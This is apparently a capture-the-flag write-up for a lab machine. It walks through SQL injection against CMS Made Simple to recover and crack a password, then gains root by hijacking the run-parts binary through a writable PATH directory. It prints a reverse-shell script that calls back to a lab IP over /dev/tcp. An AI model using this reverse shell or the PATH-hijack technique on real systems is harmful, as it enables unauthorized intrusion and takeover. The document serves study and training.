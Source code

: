 ![](./logo.png)

# USER

We can see from the `http-robots.txt` script that there is a `/writeup` endpoint

Content of the `robots.txt`

```
#              __
#      _(\    |@@|
#     (__/\__ \--/ __
#        \___|----|  |   __
#            \ }{ /\ )_ / _\
#            /\__/\ \__O (__
#           (--/\--)    \__/
#           _)(  )(_
#          `---''---`

# Disallow access to the blog until content is finished.
User-agent: * 
Disallow: /writeup/
```

Normal page has mention of `DoS` prevention
```
########################################################################
#                                                                      #
#           *** NEWS *** NEWS *** NEWS *** NEWS *** NEWS ***           #
#                                                                      #
#   Not yet live and already under attack. I found an   ,~~--~~-.      #
#   Eeyore DoS protection script that is in place and   +      | |\    #
#   watches for Apache 40x errors and bans bad IPs.     || |~ |`,/-\   #
#   Hope you do not get hit by false-positive drops!    *\_) \_) `-'   #
#                                                                      #
#   If you know where to download the proper Donkey DoS protection     #
#   please let me know via mail to jkr@writeup.htb - thanks!           #
#                                                                      #
########################################################################
```

This will stop the scanning of endpoints using `gobuster`

Reading around advised I install a tool called `wappalyzer` this gives information on the technologies used on the website.

The CMS used is `CMS Made Simple.`

Using an Unathenticated SQL Injection vulnerability from exploit-db we get the output:

```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

Running the script with the crack options gives us:

```
[+] Password cracked: raykayjay9
```

This cannot be used to log onto the CMS but can be used over `ssh` to give us the `user.txt`!

# ROOT

It can be seen by viewing the processes that the command below is running when a user logs in via `ssh`.

```
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```

`run-parts` is being executed without an exact location being specified.

Alongside this, we have write access to `/usr/local/sbin/` this allows us to create a malicious `run-parts` to be executed when a user logs in.

The malicious `run-parts` is below:

```sh
DIR="/usr/local/bin"

echo "bash -c \"bash -i >& /dev/tcp/10.10.14.55/6868 0>&1\"" > $DIR/run-parts
chmod +x $DIR/run-parts
```

This code executes a reverse shell as the context of root. This gives us a shell and allows us to view the `root.txt`.